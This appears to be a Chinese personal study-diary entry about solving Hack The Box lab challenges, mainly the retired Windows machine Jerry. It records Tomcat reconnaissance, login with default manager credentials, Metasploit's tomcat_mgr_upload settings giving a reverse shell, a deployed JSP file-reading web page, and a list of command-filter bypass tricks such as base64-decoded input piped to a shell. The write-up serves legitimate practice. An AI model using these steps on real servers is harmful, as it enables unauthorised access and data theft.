

今天极其疲倦。且心情不适。大概是因为太久没有充能……会早睡。

啊啊啊玩htb玩上头了！！！说好的早睡不见了！！！

### 1. 上班

### 2. 继续学习《设计模式之禅》

### 3. HackThebox Challenge 【Weak RSA】打掉 (完全没看tutorial！)

直接搜索kali rsa，观察搜索结果，找出很多人推荐的轮子RsaCtfTool

从github获取安装和使用方式并使用即可

无任何难度

### 3. HackThebox Retired 【Jerry】打掉 (完全没看tutorial！)

#### 3.1 发现服务

先nmap -v -A 10.129.121.74扫出来8080有tomcat

去www.cvedetails.com找对应版本号的tomcat的cve

#### 3.2 找CVE

https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-281963/Apache-Tomcat-7.0.88.html

获得：

```
CVE-2019-0232
CVE-2019-0221
CVE-2018-11784
CVE-2018-8034
CVE-2018-8014
```

#### 3.3 找EXP

###### CVE-2019-0232

学到

1) CVE-2019-0232
   This the most recent CVE available for Tomcat. To exploit the CVE number, the Tomcat must have CGI enable.

嗯，`http://10.129.121.74:8080/cgi-bin` 返回了404

说明没开，那无了

###### CVE-2019-0221

看上去是个XSS，无用

###### CVE-2018-11784

没找到啥好玩的

###### CVE-2018-8034

没找到啥好玩的

###### CVE-2018-8034

没找到啥好玩的

所以所以开始懵逼了嘛。

#### 3.4 gobuster

那 上一个gobuster试试

`gobuster dir -u http://10.129.121.74:8080/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

gobuster爆出manager能200

#### 3.5 登录tomcat

访问 `http://10.129.121.74:8080/manager`

需要登录

被大佬 [gscr10](https://github.com/gscr10) 教育tomcat默认用户名密码可以试试tomcat:s3cret

就 就上去了

大佬是真的牛逼

所以可以上传jar

```
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost 10.129.121.74
msf exploit(multi/http/tomcat_mgr_upload) > set rport 8080
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword s3cret
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

连上了reverse shell


```
meterpreter > dir
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40776/rwxrwxrw-   8192  dir   2018-06-19 04:31:28 +0800  Administrator
40777/rwxrwxrwx   4096  dir   2018-06-19 09:31:34 +0800  All Users
40777/rwxrwxrwx   8192  dir   2013-08-23 00:08:06 +0800  Default
40777/rwxrwxrwx   8192  dir   2013-08-23 00:08:06 +0800  Default User
40776/rwxrwxrw-   4096  dir   2013-08-22 23:39:32 +0800  Public
100777/rwxrwxrwx  174   fil   2013-08-22 23:37:57 +0800  desktop.ini
```

找到了flag

C:\Users\Administrator\Desktop\flags

但是！机器上封了echo copy这些玩意！不让我打印shell！

甚至封了cp 不让我复制到tomcat下。。

emmm

写个jsp或者war强行读一下试试呗 反正 好像也没啥好方法

#### 3.6 写jsp

index.jsp
```jsp
<span style="color: #000000;"><FORM METHOD=GET ACTION='index.jsp'>

<INPUT name='cmd' type=text>

<INPUT type=submit value='Run'>

</FORM>

<%@ page import="java.io.File" %><%@ page import="java.io.FileReader" %>

<%
    String output1 = "";
    try {
        File file1 = new File("C:/Users/Administrator/Desktop/flags");
        FileReader fileReader = new FileReader(file1);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output1 += (char) nowI;
        }
    } catch (Throwable e) {
        output1 = e.toString();
    }

    String output2 = "";
    try {
        File file2 = new File("C:/Users/All Users/Desktop/flags");
        FileReader fileReader = new FileReader(file2);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output2 += (char) nowI;
        }
    } catch (Throwable e) {
        output2 = e.toString();
    }

    String output4 = "";
    try {
        File file4 = new File("C:/Users/Default/Desktop/flags");
        FileReader fileReader = new FileReader(file4);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output4 += (char) nowI;
        }
    } catch (Throwable e) {
        output4 = e.toString();
    }

    String output5 = "";
    try {
        File file5 = new File("C:/Users/Default User/Desktop/flags");
        FileReader fileReader = new FileReader(file5);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output5 += (char) nowI;
        }
    } catch (Throwable e) {
        output5 = e.toString();
    }

    String output6 = "";
    try {
        File file6 = new File("C:/Users/Public/Desktop/flags");
        FileReader fileReader = new FileReader(file6);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output6 += (char) nowI;
        }
    } catch (Throwable e) {
        output6 = e.toString();
    }

%>
    <pre><%=output1 %></pre>
    <pre><%=output2 %></pre>
    <pre><%=output4 %></pre>
    <pre><%=output5 %></pre>
    <pre><%=output6 %></pre>
</span>
```

toWar.bat
```bat
jar -cvf ../webshell.war *
```

打包后从tomcat的manager界面访问。

结果：

```
java.io.FileNotFoundException: C:\Users\Administrator\Desktop\flags (Access is denied)
java.io.FileNotFoundException: C:\Users\All Users\Desktop\flags (The system cannot find the file specified)
java.io.FileNotFoundException: C:\Users\Default\Desktop\flags (The system cannot find the file specified)
java.io.FileNotFoundException: C:\Users\Default User\Desktop\flags (The system cannot find the file specified)
java.io.FileNotFoundException: C:\Users\Public\Desktop\flags (The system cannot find the file specified)
```

行算你狠 四个找不到 一个权限失败

#### 3.7 命令执行绕过

既然不让我做type那就想办法绕过？

https://blog.csdn.net/qq_40671478/article/details/107569287

```
wh\o\ami	//反斜线绕过
who"a"mi	//双引号绕过
whoa'm'i	//单引号绕过
whoam``i	//反引号绕过
echo d2hvYW1p|base64 -d|sh	  #base64绕过,其中d2hvYW1p是whoami的base64编码
echo d2hvYW1p|base64 -d|bash  #base64绕过,其中d2hvYW1p是whoami的base64编码
`echo d2hvYW1p|base64 -d` //将其base64解码,然后用反引号来执行命令
echo 77686F616D69 | xxd -r -p | bash //hex绕过,其中77686F616D69是whoami的hex编码
```

```
set a=who
set b=ami
%a%%b% //正常执行whoami
call %a%%b% //正常执行whoami
```

```
set a=whoami
%a:~0% //取出所有字符,所以正常执行命令
%a:~0,6% //从开始切割6个字符,刚好是whoami,所以正常执行
%a:~0,5% //切割后是whoam,不是系统命令,不能执行
```

上述绕过方案在这台机子上全部失败

#### 3.7 开始陷入沮丧

#### 3.8 重新进入C:/Users/Administrator/Desktop/找找线索

然后tm发现`C:/Users/Administrator/Desktop/`是个文件夹！！

不是个文件！！

里面有个文件`C:/Users/Administrator/Desktop/flags/2 for the price of 1.txt`

我tm直呼离谱

重写jsp：

index.jsp
```
<span style="color: #000000;"><FORM METHOD=GET ACTION='index.jsp'>

<INPUT name='cmd' type=text>

<INPUT type=submit value='Run'>

</FORM>

<%@ page import="java.io.File" %><%@ page import="java.io.FileReader" %>

<%
    String output1 = "";
    try {
        File file1 = new File("C:/Users/Administrator/Desktop/flags/2 for the price of 1.txt");
        FileReader fileReader = new FileReader(file1);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output1 += (char) nowI;
        }
    } catch (Throwable e) {
        output1 = e.toString();
    }

    String output2 = "";
    try {
        File file2 = new File("C:/Users/All Users/Desktop/flags");
        FileReader fileReader = new FileReader(file2);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output2 += (char) nowI;
        }
    } catch (Throwable e) {
        output2 = e.toString();
    }

    String output4 = "";
    try {
        File file4 = new File("C:/Users/Default/Desktop/flags");
        FileReader fileReader = new FileReader(file4);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output4 += (char) nowI;
        }
    } catch (Throwable e) {
        output4 = e.toString();
    }

    String output5 = "";
    try {
        File file5 = new File("C:/Users/Default User/Desktop/flags");
        FileReader fileReader = new FileReader(file5);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output5 += (char) nowI;
        }
    } catch (Throwable e) {
        output5 = e.toString();
    }

    String output6 = "";
    try {
        File file6 = new File("C:/Users/Public/Desktop/flags");
        FileReader fileReader = new FileReader(file6);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output6 += (char) nowI;
        }
    } catch (Throwable e) {
        output6 = e.toString();
    }

%>
    <pre><%=output1 %></pre>
    <pre><%=output2 %></pre>
    <pre><%=output4 %></pre>
    <pre><%=output5 %></pre>
    <pre><%=output6 %></pre>
</span>
```

重新部署，重新刷新

拿到flags！！！！！！

爽到！！！


